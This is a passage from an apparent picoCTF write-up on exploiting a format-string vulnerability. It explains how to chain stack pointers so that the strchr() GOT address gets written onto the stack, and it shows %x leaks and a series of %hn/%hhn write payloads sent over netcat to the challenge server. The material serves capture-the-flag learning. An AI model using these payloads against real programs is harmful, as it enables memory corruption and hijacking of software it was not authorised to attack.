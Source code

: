 ```
0xffffd698:     0x00000017      0x00000000      0x00000019      0xffffd6cb
0xffffd6a8:     0x0000001f      0xffffdfb0      0x0000000f      0xffffd6db
0xffffd6b8:     0x00000000      0x00000000      0x00000000      0x00000000
```

We need to find a stack pointer that points to another stack pointer that points to another stack pointer in this region. We know, that's a mouth full, but we need a pointer to perform arbitrary writes to the stack to build a pointer to the GOT address of ```strchr()```. Another mouthfull, darn. Maybe it will make more sense as we go through the process.

We note that the pointer at stack index 17$ points to the address that can be referenced by 53$. We will use this fact to build our stack pointer at address 53$. The first 4 bytes are already what they should be to reference a stack position. Taking a hint, literally, we use the ```%hn``` specifier to write the last 2 bytes of an address on the stack that is located 36 bytes before 53$ at 44$. We write this value and then increment it several times to write the GOT address and the 4 addresses one byte above it to the stack starting at index 44$. To do this we need to get the value of that pointer and subtract 0x24. We can get this value using a format specifier ```%17$x``` to print out a the location of 53$. Then we can input it into a script which pushes the GOT address to the stack via format strings.

So we run the program. We leak the address of the stack pointer at 53$ with ```%17$x``` and run our script with that input value in another terminal, taking care to pipe the output to a file so that we can get the hex characters out of it.

Terminal 1:
```
$ nc shell2017.picoctf.com 29932 | tee out.txt
%17$x
_
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //fffb4134                              /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
```

Terminal 2:
```
$ python push_got.py 0xfffb4134
%16527x%17$hn
%143x%17$hhn
%255x%53$hhn
%144x%17$hhn
%24x%53$hhn
%145x%17$hhn
%131x%53$hhn
%146x%17$hhn
%135x%53$hhn
%147x%17$hhn
%256x%53$hhn
%148x%17$hhn
%24x%53$hhn
%149x%17$hhn
%131x%53$hhn
%150x%17$hhn
%135x%53$hhn
%151x%17$hhn
```